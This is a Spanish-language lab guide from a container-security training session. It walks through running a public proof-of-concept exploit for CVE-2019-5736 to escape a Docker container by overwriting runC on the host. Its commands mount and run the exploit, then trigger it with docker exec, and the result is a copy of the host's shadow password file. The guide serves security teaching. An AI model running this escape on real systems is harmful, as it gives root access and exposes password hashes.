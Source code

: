 # Guía de laboratorio Parte 1
Guía del laboratorio impartido por sidertia en las jornadas CCN-STIC

Tiempo estimado: **10 min**
Se ejecutará un exploit desarrollado por Nick Frichette el cual aprovecha una vulnerabilidad descubierta en febrero de 2019 identificada como CVE-2019-5736.
***
## ÍNDICE 📋
1. [CVE-2019-5736](#id1)
    1. [Ejecución ](#id12)

## Requisitos

1. cambiar a directorio Parte4
````
cd ~/contenedoresyseguridad/Seccion4DockerEscape
````
2. Backup runc
````
sudo cp /usr/sbin/runc /usr/sbin/runc.backup
````


<div id='id1'></div>
## 1 CVE-2019-5736

Si se desea más información se puede consultar una explicación detallada del funcionamiento en el siguiente repositorio:

https://github.com/Frichetten/CVE-2019-5736-PoC

El funcionamiento general del exploit es el siguiente, teniendo en cuenta que un atacante ha conseguido una shell en uno de nuestros contenedores:

1. Se ejecuta el exploit en el contenedor. Queda a la escucha.
2. Cuando desde el host se ejecute un exec en el contenedor llamando a sh, el contenedor sobreescribe runC por un payload deseado.

Esto se realiza mediante el acceso a runc por medio del link simbólico /proc/self/exe que apuntará a runC en el momento de ejecutar el exploit en el contenedor.
Al realizar un exec desde fuera, el exploit sobreescribe runC por el payload deseado

En nuestro caso, vamos a ejecutar el exploit en nuestra instalación docker por defecto versión 18.09.1.
Ya estamos listos para escapar de un contenedor sobreescribiendo runC y ejecutando nuestro payload como root.

<div id='id12'></div>
## Ejecución

1. **En el Host**. Para simular a un atacante, ejecutaremos una shell y mapearemos el exploit compilado en un contenedor de base ubuntu en la carpeta tmp. 
````
sudo chmod 777 /home/administrator/contenedoresyseguridad/Seccion4DockerEscape/main

docker run --name contcomprometido -v /home/administrator/contenedoresyseguridad/Seccion4DockerEscape/main:/tmp/main -it ubuntu /bin/bash
````
2. **En la shell del contenedor comprometido** recién creado cambiar de directorio a tmp y ejecutar el exploit.
````
cd /tmp
./main
````
3. **Abrir una nueva sesión ssh con el host.** No cerrar ni salir de la del punto 2. Ejecutar /bin/sh en el contenedor comprometido, momento en el que se sobreescribirá runC por el payload y se ejecutará con permisos de root en el Host.
````
docker exec -it contcomprometido /bin/sh
````
4. Observamos que en la **shell de contcomprometido** obtenemos la salida overwritten succesfully.
**En el host** observamos el fichero /tmp/ShadowOwnedBySidertia , el cual es una copia del fichero de contraseñas shadow del host.
